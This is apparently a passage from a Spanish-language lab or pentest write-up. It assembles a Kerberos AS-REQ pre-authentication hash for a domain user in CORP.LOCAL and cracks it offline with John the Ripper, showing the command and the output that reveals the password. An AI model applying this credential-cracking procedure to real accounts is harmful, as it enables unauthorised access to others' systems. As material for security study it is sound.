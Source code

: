 <figure><img src="../../.gitbook/assets/image (300).png" alt=""><figcaption></figcaption></figure>

Teniendo todo esto, tendremos que formar el `hash` para que sea uno valido de `kerberos` que tendra la siguiente estructura.

> Hash Kerberos (Estructura)

```
$krb5pa$18$<USER>$<DOMAIN>$<SALT>$<HASH_CIPHER>
```

Ahora con todos los datos vamos a formar nuestro `hash` quedando de la siguiente forma:

> hash

```
$krb5pa$18$empleado1$CORP.LOCAL$CORP.LOCALempleado1$cdd51e61aafb2b409e65ade3c748a18a85b02f3c6ebfbba42004e9669279104aef7d20d49ac73046cf1093063c3e74b2c5558d33e5521d3c
```

Ahora se lo vamos a pasar a `john` para que lo `cracke`.

### Crack Hash Kerberos

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Warning: detected hash type "krb5pa-sha1", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Warning: detected hash type "krb5pa-sha1", but the string is also recognized as "HMAC-SHA512"
Use the "--format=HMAC-SHA512" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (krb5pa-sha1, Kerberos 5 AS-REQ Pre-Auth etype 17/18 [PBKDF2-SHA1 128/128 AVX 4x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Passw0rd2        (?)     
1g 0:00:18:21 DONE (2025-03-05 07:26) 0.000907g/s 9743p/s 9743c/s 9743C/s Passwordas..Parade2
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
